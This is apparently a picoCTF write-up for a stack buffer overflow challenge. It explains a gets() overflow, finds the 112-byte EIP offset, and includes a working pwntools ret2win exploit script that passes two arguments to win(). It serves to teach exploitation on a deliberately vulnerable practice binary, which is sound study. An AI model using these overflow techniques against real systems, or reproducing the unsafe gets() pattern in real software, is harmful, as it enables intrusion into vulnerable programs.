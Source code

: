# Buffer-Overflow-2 Writeup

**Flag:** `picoCTF{...}`

---

## Summary

This is the sequel to the first buffer overflow. Same story: `gets()` lets us smash the stack, but this time the target function `win()` is pickier — it takes **two arguments** and only prints the flag if they’re correct.

So the exploit flow is:

1. Overflow buffer until we control EIP.
2. Redirect execution to `win()`.
3. Fake a return address (back to `main`) so the program doesn’t crash.
4. Push the two required arguments (`0xCAFEF00D` and `0xF00DF00D`) onto the stack.

---

## Vulnerability

Here’s the vulnerable code:

```c
void vuln(){
  char buf[BUFSIZE];      // BUFSIZE = 100
  gets(buf);              // classic unsafe input
  puts(buf);
}
```

No bounds checking = stack smash.

And the `win()` function checks arguments before printing the flag:

```c
if (arg1 != 0xCAFEF00D) return;
if (arg2 != 0xF00DF00D) return;
printf(buf);
```

So just overwriting EIP isn’t enough — we also need to pass arguments correctly.

---

## Finding the Offset

Use a cyclic pattern of 1024 bytes:

```
pattern create 1024
```

Crash the program, grab EIP, and check the offset:

```
pattern offset <EIP>
```

This gives **112 bytes**.

Why 112 and not \~100? GCC aligns the stack to **16-byte boundaries** under the cdecl calling convention. The extra padding explains the offset.

---

## Exploit Strategy

We build a payload that looks like this:

```
[112 bytes padding]  
[addr of win()]  
[addr of main()]   <- return address after win()  
[arg1 = 0xCAFEF00D]  
[arg2 = 0xF00DF00D]  
```

Python exploit:

```python
from pwn import *

def exploit(conn):
    elf = ELF("./vuln")
    win = elf.symbols["win"]
    main = elf.symbols["main"]

    payload  = b"A" * 112
    payload += p32(win)
    payload += p32(main)
    payload += p32(0xCAFEF00D)
    payload += p32(0xF00DF00D)

    conn.sendline(payload)
    conn.interactive()
```

---

## Final Notes

* Same vuln (`gets()`) but more realistic — now you have to handle args + return flow.
* EIP offset = **112** because of stack alignment.
* Exploit is just a clean ret2win with arguments.
